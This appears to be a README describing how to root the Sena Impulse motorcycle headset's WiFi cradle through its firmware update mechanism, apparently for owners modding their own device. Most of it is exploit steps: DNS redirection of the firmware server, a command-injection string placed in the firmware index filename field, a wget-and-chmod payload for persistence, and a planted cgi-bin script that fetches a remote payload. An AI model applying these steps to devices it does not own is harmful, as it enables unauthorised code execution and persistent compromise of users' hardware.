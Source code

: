 # PWNing the Sena Wifi Cradle and its Derivatives
### (as tested on the Sena Impulse Wifi update part)

IMPORTANT: Make sure all text files got unix linefeeds

## Initial entering&PWNing (Sena Impulse):
* Doing a local DNS redirect of ```firmware.sena.com``` to your own LAN ip.
* Create a folder ```senabluetoothmanager```.
* Create a folder ```WiFiCradle/impulse```
* Create a file check.cdat with following content: ```
SENA
``` (yes, the linefeed at the end matters)
* Download firmware.sena.com/senabluetoothmanager/Firmware and save it at the same folder on your local server.
* Replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";any_command_here```.  
That line change allows injection of arbitrary commands.
* Connect the Sena Impluse to the WiFi via the app or via manually doing the app commands.
## Getting Persistence
* copy the provided install.sh and PWNa.zip to the root directory of your server.
* rename install.sh to index.html (needed to bypass a quirk)
* In the Firmware index file replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";wget firmware.sena.com;chmod +x index.html```.
* Trigger a firmware update. It will seemingly succeed or "fail". Instead it ran the injected command.
* open https://IP_OF_SENA_IMPULSE/cgi-bin/index.html to install the persistence.
* Reboot and you got a file under https://IP_OF_SENA_IMPULSE/cgi-bin/exploit.sh which downloads a payload.sh from the root of your webserver.
